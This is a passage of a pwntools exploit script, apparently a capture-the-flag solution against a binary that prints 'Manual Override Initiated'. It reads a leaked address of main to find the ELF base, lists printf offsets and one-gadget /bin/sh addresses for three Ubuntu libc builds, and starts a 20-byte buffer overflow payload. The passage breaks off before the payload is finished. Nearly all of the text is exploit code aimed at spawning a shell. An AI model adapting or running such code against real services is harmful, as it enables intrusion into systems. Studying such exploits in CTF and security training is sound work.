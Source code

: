 ```
0xf75d72d0
0xf75c52d0
"""

"""
libc6-amd64_2.21-0ubuntu4.3_i386
libc6-i386_2.10.1-0ubuntu19_amd64
libc6_2.27-3ubuntu1_i386
"""

io.recvuntil("Manual Override Initiated")
io.recvuntil("$")
wtf_buffer1 = "6447"
io.sendline(wtf_buffer1)

"""
IDA
main	00000725	
0000302C		__libc_start_main	
__libc_csu_init	00000950	
"""

io.recvuntil("Unexpected Error Encountered At: ")
addr_main = io.recvline().strip()
print("[!]addr_main: ["+addr_main+"]")
addr_main_int = int(addr_main,16)

io.recvuntil("Safe Mode Enabled")
io.recvuntil("$")

ida_main = 0x00000725
###########
plshaq_libc6_amd64_2_21_0ubuntu4_3_i386_offset_printf = 0x000000000004f2d0

plshaq_libc6_amd64_2_21_0ubuntu4_3_i386_binsh1 = 0x3f856 
plshaq_libc6_amd64_2_21_0ubuntu4_3_i386_binsh2 = 0x3f8aa 
plshaq_libc6_amd64_2_21_0ubuntu4_3_i386_binsh3 = 0xd6f2d 
#############
plshaq_libc6_i386_2_10_1_0ubuntu19_amd64_offset_printf = 0x000472d0

plshaq_libc6_i386_2_10_1_0ubuntu19_amd64_binsh1 = 0x392b4 
plshaq_libc6_i386_2_10_1_0ubuntu19_amd64_binsh2 = 0x5e38b 
plshaq_libc6_i386_2_10_1_0ubuntu19_amd64_binsh3 = 0x5e391 
plshaq_libc6_i386_2_10_1_0ubuntu19_amd64_binsh4 = 0x5e395 
##############
plshaq_libc6_2_27_3ubuntu1_i386_offset_printf = 0x000512d0

plshaq_libc6_2_27_3ubuntu1_i386_binsh1 = 0x3d0d3 
plshaq_libc6_2_27_3ubuntu1_i386_binsh2 = 0x3d0d5 
plshaq_libc6_2_27_3ubuntu1_i386_binsh3 = 0x3d0d9 
plshaq_libc6_2_27_3ubuntu1_i386_binsh4 = 0x3d0e0 
plshaq_libc6_2_27_3ubuntu1_i386_binsh5 = 0x67a7f 
plshaq_libc6_2_27_3ubuntu1_i386_binsh6 = 0x67a80 
plshaq_libc6_2_27_3ubuntu1_i386_binsh7 = 0x137e5e 
plshaq_libc6_2_27_3ubuntu1_i386_binsh8 = 0x137e5f 
##############

# Anyway
real_elf_base = addr_main_int - ida_main

pay = ""
#   char buf[20]; // [esp+Ch] [ebp-1Ch]
pay += "A"*20
```